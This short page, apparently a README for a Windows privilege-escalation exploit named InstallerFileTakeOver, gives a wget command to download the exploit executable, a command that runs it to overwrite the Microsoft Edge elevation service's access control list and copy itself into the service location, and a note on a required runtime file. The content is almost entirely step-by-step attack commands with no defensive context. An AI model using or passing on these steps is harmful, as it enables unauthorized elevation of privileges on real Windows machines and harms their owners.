 ### download
```
wget https://github.com/klinix5/InstallerFileTakeOver/blob/main/InstallerFileTakeOver/Release/InstallerFileTakeOver.exe
```

### execute and overwrite Microsoft Edge elevation service DACL and copy itself to the target service location
```
.\InstallerFileTakeOver.exe C:\Windows\system.ini
```

### additional informations
```
The exploit needs an additional file (VisualC-Runtime) inside the same directory (https://aka.ms/vs/17/release/vc_redist.x86.exe).
```

### References
https://github.com/klinix5/InstallerFileTakeOver  

